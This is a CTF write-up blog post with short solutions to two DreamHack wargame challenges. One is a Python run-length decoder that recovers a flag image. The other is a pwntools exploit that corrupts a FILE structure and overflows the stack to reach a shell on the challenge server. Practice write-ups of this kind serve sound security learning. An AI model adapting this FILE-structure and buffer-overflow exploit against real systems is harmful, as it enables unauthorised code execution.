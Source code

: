 ```yaml
---
title: "Dream Hack Playround"
date: 2025-05-21
draft: false
tags: ["Wargame", "DreamHack", "Rev", "Pwn"]
# categories: ["CTF Writeups"]
lightgallery: true
toc:
  enable: true
description: "Solutions for some challenges in BKCTF 2023 by ducdatdau"
---
```


Short solutions to several CTF challenges on the [Dream Hack wargame](https://dreamhack.io/wargame), focusing on topics such as pwn, rev, and forensics. 

<!--more-->

I don’t have much time for CTFs right now since I’m focusing on my study abroad applications. This series only covers easier challenges - I miss CTFs too much to quit completely.

<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin-left: auto; 
    margin-right: auto;
}
</style>

# Dream Hack Wargame

## secret message | rev⭐⭐

- [Run Length Encoding Algorithm](https://www.geeksforgeeks.org/run-length-encoding/). Example: `raw = ABBBCCDDDDE` ➡️ `enc = ABB1CC0DD2E`. 

```python
from PIL import Image

with open("secretMessage.enc", "rb") as enc_file: 
    data = enc_file.read() 
    raw_file = open("secretMessage.raw", "wb") 

    idx = 0 
    
    while idx < len(data):
        if idx + 1 < len(data) and data[idx] == data[idx + 1]: 
            for j in range(data[idx + 2] + 2): 
                raw_file.write(data[idx].to_bytes(1, "little")) 
            idx += 3
        else: 
            raw_file.write(data[idx].to_bytes(1, "little")) 
            idx += 1

    raw_file.close() 

    with open("secretMessage.raw", "rb") as f:
        output = f.read()
        img = Image.frombytes("1", (500, 50), output)
        img.save("flag.png")

# raw = ABBBCCDDDDE -> enc = ABB1CC0DD2E.
```

## iofile_aw | pwn⭐⭐⭐

- Modify `FILE` structure to change `size` from 255 bytes to 0x1000 bytes. 
- Trigger a BOF bug. Since the stack canary is disabled, we can overwrite the return address with the address of `get_shell`.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iofile_aw_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe
# p = process(exe.path) 
p = remote("host3.dreamhack.games", 21978)

# gdb.attach(p, gdbscript="""
#     b *0x400ba0
#     c 
# """)

# pause()

sz_addr = exe.symbols["size"]
shell_addr = exe.symbols["get_shell"]

payload = b"printf "
payload += p64(0xfbad208b)
payload += p64(0)               # _IO_read_ptr
payload += p64(0)               # _IO_read_end
payload += p64(0)               # _IO_read_base
payload += p64(0)               # _IO_write_base
payload += p64(0)               # _IO_write_ptr
payload += p64(0)               # _IO_write_end
payload += p64(sz_addr)         # _IO_buf_base

p.sendafter(b"# ", payload) 

p.sendafter(b"# ", b"read\x00") 
# input("Enter to continue")
p.sendline(p64(0x1000))         # size = 0x1000 

payload = b"exit\x00"
payload += b"A" * (0x228 - 5) 
payload += p64(shell_addr) 

p.sendafter(b"# ", payload) 

p.interactive()
```